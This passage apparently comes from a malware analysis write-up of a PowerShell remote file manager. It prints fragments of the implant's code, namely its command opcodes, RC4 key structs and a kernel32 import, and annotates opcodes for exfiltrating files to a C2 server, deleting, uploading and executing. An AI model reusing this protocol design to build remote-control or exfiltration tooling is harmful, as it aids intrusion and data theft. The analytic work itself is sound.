 ```powershell
	    OP_REQ_CREATE_DIR    =  0x40E,
	    OP_RES_CREATE_DIR    =  0x40F,
	    OP_REQ_RESTART       =  0x410,
	    OP_REQ_CLOSE         =  0x411,
	    OP_REQ_REMOVE        =  0x412,
	    OP_RES_DRIVE_ERROR	= 0x413,
	    OP_REQ_EXECUTE	= 0x414,
	    OP_RES_EXECUTE	= 0x415,
	    OP_REQ_CREATE_ZIP	= 0x416,
	    OP_RES_CREATE_ZIP	= 0x417
    }

    [StructLayout(LayoutKind.Sequential)]
    public struct _RC4_KEY
    {
        public Byte[] state;
        public Byte x;
        public Byte y;
    }
"@

    $signatures = @'
	[DllImport("kernel32.dll")]
	public static extern UInt32 GetTickCount();
'@
    $API = Add-Type -MemberDefinition $signatures -Name 'Win32' -Namespace API -PassThru

    $Global:SendKey = New-Object _RC4_KEY;
    $Global:RecvKey = New-Object _RC4_KEY;

    $Global:indexX = 0;
    $Global:indexY = 0;
```
This RemoteFileManager function starts with **Add-Type** command that lets you define dynamically new types in Powershell. It can be used to create .Net classes and enum types. In our code two elements are composed of 

- ***_OP_CODE*** - Here, each constant represents an operation code used in the communication protocol between the client and the server. Explanation of these enums are given below 

```
	OP_UNIQ_ID	=	0x401, # Check-In Unique ID - Sent with first packet from Client
	OP_REQ_DRIVE_LIST    =	0x402, # Request from Server for logical drive info
	OP_RES_DRIVE_LIST    =	0x403, # Response from client with logical drive info
	OP_REQ_PATH_LIST     =	0x404, # Request from Server for list of dir & files from path
	OP_RES_PATH_LIST     =	0x405, # Response from client with list of dir, files from path
	OP_REQ_PATH_DOWNLOAD =	0x406, # Request from server to exfiltrate file/dir to the C2 - arg: file/dir_path;c2_url
	OP_RES_PATH_DOWNLOAD =	0x407, # Response from client once the file/dir (ZIP + b64 encoded) is exfiltrated to C2
	OP_REQ_PATH_DELETE   =	0x408, # Request from server to delete dir/file - arg:path
	OP_RES_PATH_DELETE   =	0x409, # Response from client after deleting dir/file
	OP_REQ_FILE_UPLOAD   =	0x40A, # Request from server to upload file on the machine
	OP_RES_FILE_UPLOAD   =	0x40B, # Response from client once the uploaded file is written on the machine
	OP_REQ_PATH_RENAME   =	0x40C, # Request from server to rename file/folder - arg:oldfilename,newfilename
	OP_RES_PATH_RENAME   =	0x40D, # Response from client after renaming file/folder
	OP_REQ_CREATE_DIR    =  0x40E, # Request from server to create directory - arg: path - add (2) if already created
	OP_RES_CREATE_DIR    =  0x40F, # Response from server after creating directory
	OP_REQ_RESTART       =  0x410, # Restart connection
	OP_REQ_CLOSE         =  0x411, # Close connection
	OP_REQ_REMOVE        =  0x412, # Close connection
```